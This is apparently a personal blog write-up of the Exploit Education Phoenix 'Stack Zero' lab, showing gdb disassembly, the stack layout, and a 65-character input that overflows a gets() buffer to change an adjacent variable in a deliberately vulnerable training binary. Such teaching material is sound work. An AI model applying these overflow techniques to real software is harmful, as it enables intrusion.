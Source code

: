 ```yaml
---
layout: post
title: Stack Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Zero exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would stronly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Stack Zero exercise is based on stackoverflow memory corruption issue where you'll have to smash the stack to modify other variables in the stack to achieve code execution, execution flow redirection or behaviour in the program. Technically, `gets` function is unsafe that doesn't have bounds check basically, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-zero code, One can use `gdb ./stack-zero` to start debugging it in runtime.

1. `gdb ./stack-zero`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004005ec <+15>:    mov    edi,0x400680
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:    mov    rdi,rax
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
   0x000000000040061c <+63>:    mov    edi,0x400708
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-zero using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Set `locals.changeme` variable to `zero` or `0x00` in hex
3. Get `locals.buffer` variable filled by `gets` function
4. Verify `locals.changeme` is not `zero` or `0x00` in hex
5. Use puts(aka Printf) method to greet the user again
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-zero-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully, thus completing the challenge.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-zero-gdb.jpg)

```assembly

<FIRST TRY - 64 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[Inferior 1 (process 426) exited normally]

<SECOND TRY - 65 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 430) exited normally]

```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Zero Exercise: [Exploit Education](https://exploit.education/phoenix/stack-zero/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
